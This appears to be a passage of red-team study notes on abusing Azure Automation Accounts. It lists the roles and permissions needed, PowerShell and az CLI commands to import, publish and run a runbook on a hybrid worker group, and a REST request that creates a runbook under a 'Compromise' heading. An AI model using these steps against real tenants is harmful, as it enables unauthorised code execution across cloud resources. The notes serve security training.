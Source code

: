 --> Support process automation :  
- RunBooks
- Configuration Management
- Update Management
- Shared resources

If a user has **Contributor** role over an automation account, it is possible to create and execute RunBooks.  

```
Import-AzAutomationRunbook -Name student129 -Path C:\AzAD\Tools\student129.ps1 -AutomationAccountName HybridAutomation -ResourceGroupName Engineering -Type PowerShell -Force -Verbose
```

```
 Publish-AzAutomationRunbook -RunbookName student129  -AutomationAccountName HybridAutomation -ResourceGroupName Engineering -Verbose
 ```
 
 ```
 Start-AzAutomationRunbook -RunbookName student129 -RunOn Workergroup1 -AutomationAccountName HybridAutomation -ResourceGroupName Engineering -Verbose
 ```

#### Automation accounts 2
Azure Automation accounts support automation of various tasks in Azure Resource Manager. Using Automation Accounts Runbooks, you can execute scripts to manage tenant resources across all regions and subscriptions in the tenant.

**Recon**  
Require the following permission :  
- *Microsoft.Automation/automationAccounts/read*

```
az automation account list -g <resource group>

```

**Compromise**  
--> Attacker will attempt to create and run a new runbook under this account.  

Require the following permission :  
- *Microsoft.Automation/automationAccounts/runbooks/write*
- *Microsoft.Automation/automationAccounts/jobs/write*
```
PUT https://management.azure.com/subscriptions/{subscriptionId}/resourceGroups/{resourceGroupName}/providers/Microsoft.Automation/automationAccounts/{automationAccountName}/runbooks/{runbookName}?api-version=2015-10-31{
   "properties": {
      "logVerbose": false,
      "logProgress": true,
      "runbookType": "PowerShellWorkflow",
      "publishContentLink": {
         "uri": "runbook content URI",
         "contentHash": {
            "algorithm": "SHA256",
            "value": "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX"
         }
      },
      "description": "Description of the Runbook",
      "logActivityTrace": 1
   },
   "name": "RunBookName",
   "location": "East US 2"
}

```
